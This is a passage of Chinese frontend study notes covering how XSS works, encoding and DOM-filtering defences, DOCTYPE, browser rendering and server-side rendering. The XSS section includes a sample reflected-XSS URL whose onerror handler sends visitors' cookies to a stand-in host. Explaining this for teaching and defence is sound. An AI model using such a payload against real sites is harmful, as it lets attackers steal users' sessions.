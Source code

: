 #### XSS的工作原理：
不管是反射型还是存储型，服务端都会将JavaScript当做文本处理，这些文本在服务端被整合进html文档中，在浏览器解析这些文本的过程也就是XSS被执行的时候。

从攻击到执行分为以下几步：
1. 构造攻击代码
2. 服务端提取并写入HTML
3. 浏览器解析，XSS执行


**构造攻击代码：**
hacker在发现站点对应的漏洞之后，基本可以确定是使用“反射型”或者“存储型”。对于反射型这个很简单了，执行类似代码：
```
https://www.toutiao.com/search?item=<img onerror="new Image().src='//hack.com?c=' src='null'>"
```

大家知道很多站点都提供搜索服务，这里的item字段就是给服务端提供关键词。如果hacker将关键词修改成可执行的JavaScript语句，如果服务端不加处理直接将类似代码回显到页面，XSS代码就会被执行。


这段代码的含义是告诉浏览器加载一张图片，图片的地址是空，根据加载机制空图片的加载会触发Element的onerror事件，这段代码的onerror事件是将本地cookie传到指定的网站。


#### XSS的防范措施：



**编码:**
对于反射型的代码，服务端代码要对查询进行编码，主要目的就是将查询文本化，避免在浏览器解析阶段转换成DOM和CSS规则及JavaScript解析。


**DOM Parse和过滤:**
从XSS工作的原理可知，在服务端进行编码，在模板解码这个过程对于富文本的内容来说，完全可以被浏览器解析到并执行，进而给了XSS执行的可乘之机。

为了杜绝悲剧发生，我们需要在浏览器解析之后进行解码，得到的文本进行DOM parse拿到DOM Tree，对所有的不安全因素进行过滤，最后将内容交给浏览器，达到避免XSS感染的效果。


## 渲染机制类

### DOCTYPE
DTD(document type definition,文档类型定义)是一系列的语法规则，用来定义XML或(X)HTML的文件类型。浏览器会使用它来判断文档类型，决定使用何种协议来解析，以及切换浏览器模式。

DOCTYPE是用来声明文档类型和DTD规范的，一个主要的用途便是文件的合法性检验。如果文件代码不合法，那么浏览器解析时便会出错。

HTML5
`<!DOCTYPE html>`


### 浏览器渲染过程
1. 根据HTML结构生成DOM Tree
2. 根据CSS生成CSSOM
3. 将DOM和CSSOM整合形成RenderTree,同时进行Layout
4. 根据RenderTree开始渲染(Painting)和展示(Display)
5. 遇到`<script>`时，会执行并阻塞渲染

### SSR
SSR，服务器渲染。简单来说就是，服务器将每个要展示的页面都运行完成后，将整个相应流传送给浏览器，所有的运算在服务器端都已经完成，浏览器只需要解析 HTML 就行。
